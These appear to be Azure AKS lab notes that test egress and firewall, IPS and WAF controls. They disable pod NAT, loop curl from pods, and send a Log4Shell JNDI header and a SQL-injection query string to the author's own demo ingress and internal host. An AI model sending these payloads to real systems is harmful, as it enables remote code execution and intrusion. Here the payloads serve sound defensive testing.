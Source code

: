 
### Disable NAT for traffice from Pods

```bash
kubectl apply -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: azure-ip-masq-agent-config
  namespace: kube-system
  labels:
    component: ip-masq-agent
    kubernetes.io/cluster-service: "true"
    addonmanager.kubernetes.io/mode: EnsureExists
data:
  ip-masq-agent: |-
    nonMasqueradeCIDRs:
      - 0.0.0.0/0
    masqLinkLocal: true
EOF

# remove config mod
kubectl describe cm/azure-ip-masq-agent-config -n kube-system
kubectl delete cm/azure-ip-masq-agent-config -n kube-system

# scale web deploy
kubectl scale deploy web --replicas 11
PODS=$(kubectl get pod -l app=web -o name)
# go from every pod
while true; do
  for P in $PODS; do echo $P; kubectl exec -it $P -- curl -m1 ip.iol.cz/ip/; echo; done
  for P in $PODS; do echo $P; kubectl exec -it $P -- curl -m1 ifconfig.me; echo; done
  for P in $PODS; do echo $P; kubectl exec -it $P -- curl -m1 10.68.2.4  -H 'X-Log: ${jndi:ldap://example.com}'; echo; done
  # log4j - IPS
  #for P in $PODS; do echo $P; kubectl exec -it $P -- curl -m1 10.68.2.4  -H 'X-Log: ${jndi:ldap://example.com}'; echo; done
  sleep 2;
done

# local log4j to appsec ingress
curl -m1 https://aksdemo.klaud.online/?q=1 
curl -m1 https://aksdemo.klaud.online/?q=UNION+1=1
curl -m1 https://aksdemo.klaud.online/?q=1 -H 'X-Log: ${jndi:ldap://example.com}';
```

Ingress https://learn.microsoft.com/en-us/azure/firewall/protect-azure-kubernetes-service

https://learn.microsoft.com/en-us/azure/aks/internal-lb?tabs=set-service-annotations
Kubernetes Service managed identity does not have persmissions for VNET in other RG
https://stackoverflow.com/questions/68117424/aks-getting-unauthorize-error-while-trying-to-create-load-balancer
give Network Contributor to VNET to Kubertenes Service?
